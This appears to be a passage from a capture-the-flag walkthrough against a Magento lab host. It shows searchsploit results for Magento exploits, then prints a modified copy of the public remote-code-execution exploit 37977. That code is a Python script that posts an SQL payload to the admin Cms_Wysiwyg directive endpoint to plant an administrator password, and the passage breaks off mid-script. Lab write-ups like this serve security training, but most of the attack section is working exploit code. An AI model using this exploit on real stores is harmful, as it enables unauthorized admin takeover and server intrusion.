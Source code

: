 Search for Magento exploits!
```
searchsploit -w magento
--------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                                                                               |  URL
--------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting                                           | https://www.exploit-db.com/exploits/32808
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting                                     | https://www.exploit-db.com/exploits/32809
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                                    | https://www.exploit-db.com/exploits/32810
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                                               | https://www.exploit-db.com/exploits/39838
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                 | https://www.exploit-db.com/exploits/37811
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                       | https://www.exploit-db.com/exploits/35996
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                  | https://www.exploit-db.com/exploits/35052
Magento eCommerce - Local File Disclosure                                                                                                    | https://www.exploit-db.com/exploits/19793
Magento eCommerce - Remote Code Execution                                                                                                    | https://www.exploit-db.com/exploits/37977
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                                                 | https://www.exploit-db.com/exploits/38573
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                                      | https://www.exploit-db.com/exploits/38651
--------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Result
```

RCE is always helpful!

Magento eCommerce - Remote Code Execution                                                                                                    https://www.exploit-db.com/exploits/37977

Based on the version of Magento this exploit should work!

# Unprivileged Reverse Shell

Modify the exploit appropriately:
```
cat 37977.py 
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
```